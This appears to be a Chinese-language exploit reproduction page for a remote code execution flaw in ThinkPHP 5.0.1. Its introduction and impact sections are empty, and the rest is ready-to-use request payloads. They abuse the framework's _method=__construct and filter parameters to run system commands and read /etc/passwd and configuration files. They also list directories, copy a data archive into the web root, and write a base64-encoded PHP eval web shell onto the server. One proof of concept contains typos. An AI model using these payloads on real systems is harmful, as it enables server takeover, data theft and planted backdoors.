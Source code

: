 # Thinkphp 5.0.1

> 原文：[https://www.zhihuifly.com/t/topic/3147](https://www.zhihuifly.com/t/topic/3147)

# Thinkphp 5.0.1

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 1、判断是否存在漏洞

#### poc1

```
http://wwww.0-sec.org/public `s=phpinfo()&_method=__construct&filter=assert

_method=__construct&method=get&filter[]=call_user_func&server[]=phpinfo&get[]=phpinfo

_method=__construct&method=get&filter[]=call_user_func&get[]=phpinfo

_method=__construct&method=get&filter[]=call_user_func&get[0]=phpinfo&get[1]=1` 
```

#### poc2

```
http://wwww.0-sec.org/?s=index/index/index `s=ipconfig&_mehthod=__construct$method=&filter[]=system` 
```

### 2、深入利用

使用post提交

#### 1、使用assert函数

```
s=phpinfo()&_method=__construct&filter=assert 
```

#### 2、include函数，可以根据此函数查看一些文件及其配置

```
s=include("/etc/passwd")&_method=__construct&filter=assert 
```

#### 3、file_put_contents函数，可以直接写入文件

```
s=file_put_contents('/data/wwwroot/www.0-sec.org/application/index/test.php',base64_decode('PD9waHAgJHBhc3M9JF9QT1NUWydhYWFhJ107ZXZhbCgkcGFzcyk7Pz4'))&_method=__construct&filter=assert 
```

#### 4、读取文件

```
_method=__construct&method=get&filter[]=think\__include_file&server[]=phpinfo&get[]=../application/.htaccess 
```

```
s=include("../application/.htaccess")&_method=__construct&filter=assert `//ps:如果不加… 请加上完整路径` 
```

#### 5、var_dump函数，可以查看该路径下的文件，文件夹

```
s=var_dump(scandir('../application/'))&_method=__construct&filter=assert 
```

#### 6、复制文件

```
s=copy("/data/wwwroot/data.tar", "/data/wwwroot/www.0-sec.org/public/data.tar")&_method=__construct&filter=assert 
```